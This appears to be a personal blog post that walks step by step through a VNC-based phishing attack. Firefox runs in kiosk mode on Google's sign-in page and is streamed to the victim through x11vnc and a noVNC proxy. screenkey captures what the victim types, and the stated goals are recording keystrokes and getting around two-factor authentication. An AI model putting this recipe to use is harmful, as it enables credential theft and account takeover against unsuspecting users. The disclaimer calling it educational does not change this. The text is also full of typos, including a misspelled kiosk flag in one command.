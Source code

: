 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, Mr. d0x a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

The goal is to share our screen, specifically our browser window, and make the victim believe they are controlling their own browser when they are actually connected to our computer.

By using a library called [noVNC](https://novnc.com/info.html), we can connect to VNC servers from modern web browsers. This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---

# PoC

First we lachnge Firefox, or any other browser in kiosk mode.

so, first what is kiosk mode?

Kiosk software is the system and user interface software designed for an interactive kiosk or Internet kiosk enclosing the system in a way that prevents user interaction and activities on the device outside the scope of execution of the netkiosk.

Why do need kiosk mode?

Without kiosk mode, the vicitim might be able to control other parts of our attacking machine, that we probarly dont want to happen.

In the terminal, run:

```bash
firefox --kisok https://accounts.google.com
```

Now in a new terminal window, we will use noVNC.

noVNC is a VNC client library that can run on almost any browsers.

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

now we need to get the id of Firefox proccess running, we can use `xwininfo | grep` run this command and select the firefox browser, the terminal will print the id back.

After we have the id, we will star a local vnc server with:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <firefox_window_id>
```

Almost done! Now all left to do is use some kind keylogger, we can use `screenkey` to see key presses by the victim in real time, (note: it will also show our own key presses so please be aware):

```
sudo apt install screenkey -y
screenkey
```

Now all left to do is open up the the browser from the vicitm and enter the following url: `http://<ip>:8080/vnc.html?autoconnect=true`

When the vicitim will enter this url he will see the google accounts login page, without knowing it is a streaming video that he can interact with, this is crazy!
